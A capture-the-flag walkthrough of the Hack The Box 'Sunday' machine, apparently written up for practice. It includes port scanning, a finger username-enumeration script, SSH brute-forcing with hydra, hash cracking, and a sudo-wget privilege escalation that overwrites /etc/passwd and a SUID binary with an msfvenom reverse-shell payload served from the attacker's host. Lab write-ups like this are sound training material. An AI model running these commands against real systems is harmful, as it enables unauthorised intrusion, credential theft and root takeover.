







# [Sunday](https://app.hackthebox.eu/machines/136)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.76 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.76 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.76
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.76
```

The TCP quick scan returns the following:


These are interesting ports:

- https://book.hacktricks.xyz/pentesting/pentesting-finger
- https://book.hacktricks.xyz/pentesting/pentesting-rpcbind

It seems like the finger service on TCP port 79 can be used for username enumeration. However, this alone is not very helpful. The full `nmap` scan helps by shows SSH running on a non-common port:



Maybe this is a bruteforce? A good list of common usernames can be found here:

- https://github.com/danielmiessler/SecLists

Install these wordlists if not already:

```bash
sudo apt install seclists
```

Then write a basic Python script to thread out the attempts to find a valid username using the `finger` program:

- Script was built using trial and error from running the `finger` command manually with some known valid usernames like `root` and other non-common ones
- The script "randomizes" the input wordlist to help speed up finding a match

```python
import random
import subprocess
import multiprocessing
import multiprocessing.dummy

TARGET = '10.10.10.76'
WORDLIST = '/usr/share/seclists/Usernames/Names/names.txt'

def finger(username):
  username = username.strip()
  print(f'[*] trying {username} ...')
  while True:
    p = subprocess.run(f'finger "{username}"@{TARGET}', 
                       stdout=subprocess.PIPE, 
                       stderr=subprocess.PIPE, 
                       shell=True)
    if p.stderr.decode():
      continue
    if '???' not in p.stdout.decode():
      print(f'[!!!] FOUND {username}')
      print(p.stdout.decode())
    break

if __name__ == '__main__':
  usernames = []
  with open(WORDLIST, 'r') as f:
    usernames.extend(f.readlines())
  random.shuffle(usernames)
  print(f'[*] loaded {len(usernames)} usernames ...')
  threads = multiprocessing.dummy.Pool(multiprocessing.cpu_count()) 
  threads.map(finger, usernames)
  threads.join()
```

Run the above script as follows:

```bash
python3 finger.py
```

This will run for a while. In the meantime, look for any interesting exploits for Sun Solaris `fingerd`:

- https://securitytracker.com/id/1002613
- https://vuldb.com/?id.17822
- https://www.cvedetails.com/cve/CVE-2007-4310/
- https://www.cvedetails.com/cve/CVE-2001-1503/

Looking through these does not show too much... Try SearchSploit for a generic Sun Solaris exploit:

```bash
searchsploit sun solaris | grep -v "/local/" | grep -v "/dos/"
```



Exploits 5282 and 5366 look probable since they require access to RPC over TCP port 111:

- https://www.exploit-db.com/exploits/5282
  - PoC code downloadable from https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5282.tar.gz
- https://www.exploit-db.com/exploits/5366
  - Metasploit version of exploit 5282

Try the exploit code:

```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5282.tar.gz
gcc -c -fpic -Wall ypupdate_prot_xdr.c ypk.c
gcc -s --static ypupdate_prot_xdr.o ypk.o -o ypk
./ypk 10.10.10.76
```

But this returns a `clntudp_create failure` error. Some Googling shows the following:

- https://linux.die.net/man/3/clntudp_create

From here, the documentation does not help much... Looking back at the output for `finger.py` shows some interesting results:



It looks like there are 2 unique usernames `sunny` and `sammy`. Try a bruteforce, but using common passwords from seclists:

```bash
echo 'sunny'  > users.txt
echo 'sammy' >> users.txt
cp /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt .
hydra -V -f -L users.txt -P 10k-most-common.txt -s 22022 ssh://10.10.10.76
```

And this results in a win:



Now try to connect to the target:

```bash
ssh -p 22022 sunny@10.10.10.76 # password sunday
```

But this returns the following error:

```
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

Fix this by adding the following:

```bash
ssh -p 22022 -oKexAlgorithms=diffie-hellman-group1-sha1 sunny@10.10.10.76 # password sunday
```

This provides access but not `user.txt`:


After looking around there seems to be an interesting file with sudo permissions:



But this looks like a deadend since it is not readable and no matter how the binary is ran, it just prints the same thing. Next, there seems to be interesting files at `/backup`:



Those look like password hashes. Try to crack them:

```bash
echo '$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB'  > sunday.hash
echo '$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3' >> sunday.hash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
# id the hash type using 'hashid sunday.hash' and then grep for the output in 'hashcat --help'
# the hash type should be SHA-256 Crypt, which matches module 7400 for hashcat
hashcat -m 7400 -a 0 --quiet --potfile-disable sunday.hash rockyou.txt
```

And this has some wins:


Now connect with this new account:

```bash
ssh -p 22022 -oKexAlgorithms=diffie-hellman-group1-sha1 sammy@10.10.10.76 # cooldude!
```

After connecting, it seems like `sammy` has another interesting sudo permission:


It should be possible to use this power to overwrite `/etc/passwd` with a new root user. First download the `/etc/passwd` from the target and save it in `passwd` on Kali:

```
root:x:0:0:Super-User:/root:/usr/bin/bash
daemon:x:1:1::/:
bin:x:2:2::/usr/bin:
sys:x:3:3::/:
adm:x:4:4:Admin:/var/adm:
lp:x:71:8:Line Printer Admin:/usr/spool/lp:
uucp:x:5:5:uucp Admin:/usr/lib/uucp:
nuucp:x:9:9:uucp Admin:/var/spool/uucppublic:/usr/lib/uucp/uucico
dladm:x:15:3:Datalink Admin:/:
smmsp:x:25:25:SendMail Message Submission Program:/:
listen:x:37:4:Network Admin:/usr/net/nls:
gdm:x:50:50:GDM Reserved UID:/:
zfssnap:x:51:12:ZFS Automatic Snapshots Reserved UID:/:/usr/bin/pfsh
xvm:x:60:60:xVM User:/:
mysql:x:70:70:MySQL Reserved UID:/:
openldap:x:75:75:OpenLDAP User:/:
webservd:x:80:80:WebServer Reserved UID:/:
postgres:x:90:90:PostgreSQL Reserved UID:/:/usr/bin/pfksh
svctag:x:95:12:Service Tag UID:/:
nobody:x:60001:60001:NFS Anonymous Access User:/:
noaccess:x:60002:60002:No Access User:/:
nobody4:x:65534:65534:SunOS 4.x NFS Anonymous Access User:/:
sammy:x:101:10:sammy:/export/home/sammy:/bin/bash
sunny:x:65535:1:sunny:/export/home/sunny:/bin/bash
```

Then perform the switch as follows:

```bash
# run on kali
echo "bubba:$(openssl passwd -1 -salt bubba gump):0:0:root:/root:/bin/bash" >> passwd
sudo python3 -m http.server 80
# run on target as sammy
sudo /usr/bin/wget -O /etc/passwd 10.10.14.25/passwd
su bubba
```

However, this gives a `su: Unknown id: bubba` error? Googling this error does not help... Instead of adding a new user to `/etc/passwd`, just replace the password for `root` with the same known passwords for `sammy` or `sunny` in `/etc/shadow` by using `/backup/shadow.backup` as a template.

However, this is boring (annoyed the basic `/etc/passwd` did not work). Instead, use the `wget` to overwrite a SUID binary on the target and use it to get a dedicated shell. First, find these binaries on the target:

```bash
find / -perm -u=s -type f -exec ls -lad {} \; 2>/dev/null
```

From this output, `/usr/bin/at` will be used below:

```bash
# on kali, stage a payload that will take advantage of SUID with a SunOS payload
msfvenom -p solaris/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         PrependSetuid=true \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
# on the target, download the payload and trigger it
sudo /usr/bin/wget -O /usr/bin/at 10.10.14.25/bubba.elf
/usr/bin/at
```

This returns a `root` shell:



